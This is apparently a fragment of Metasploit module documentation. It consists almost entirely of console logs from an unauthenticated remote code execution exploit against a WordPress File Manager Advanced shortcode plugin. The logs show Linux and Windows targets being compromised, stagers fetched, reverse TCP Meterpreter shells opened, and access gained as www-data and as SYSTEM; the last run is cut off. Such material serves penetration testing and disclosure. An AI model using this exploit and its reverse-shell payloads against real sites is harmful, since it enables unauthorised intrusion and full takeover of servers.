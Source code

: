 ```
```
### Kali Linux Server Linux Dropper -  linux/aarch64/meterpreter_reverse_tcp
```
msf exploit(multi/http/wp_plugin_fma_shortcode_unauth_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. fmakey successfully retrieved: 5a669fda54
[*] Executing Linux Dropper for linux/aarch64/meterpreter_reverse_tcp
[*] Using URL: http://192.168.201.10:1981/manX3C
[*] Client 192.168.201.10 (Wget/1.21.3) requested /manX3C
[*] Sending payload to 192.168.201.10 (Wget/1.21.3)
[+] Deleted nypafHKuf.php
[*] Meterpreter session 6 opened (192.168.201.10:4444 -> 192.168.201.10:38108) at 2023-06-28 15:36:11 +0000
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.201.10
OS           : Debian  (Linux 5.15.44-Re4son-v8l+)
Architecture : aarch64
BuildTuple   : aarch64-linux-musl
Meterpreter  : aarch64/linux
meterpreter > getuid
Server username: www-data
meterpreter >
```
### Windows Server 2019 Windows Command - cmd/windows/powershell/x64/meterpreter/reverse_tcp
```
msf exploit(multi/http/wp_plugin_fma_shortcode_unauth_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. fmakey successfully retrieved: 2a1a319c46
[*] Executing Windows Command for cmd/windows/powershell/x64/meterpreter/reverse_tcp
[*] Sending stage (200774 bytes) to 192.168.201.55
[+] Deleted HAJSKquhaDT.php
[*] Meterpreter session 2 opened (192.168.201.10:4444 -> 192.168.201.55:50464) at 2023-06-28 14:21:39 +0000

meterpreter > sysinfo
Computer        : WIN-BJDNH44EEDB
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
### Windows Server 2019 Windows Dropper - windows/x64/meterpreter/reverse_tcp
```
msf exploit(multi/http/wp_plugin_fma_shortcode_unauth_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
```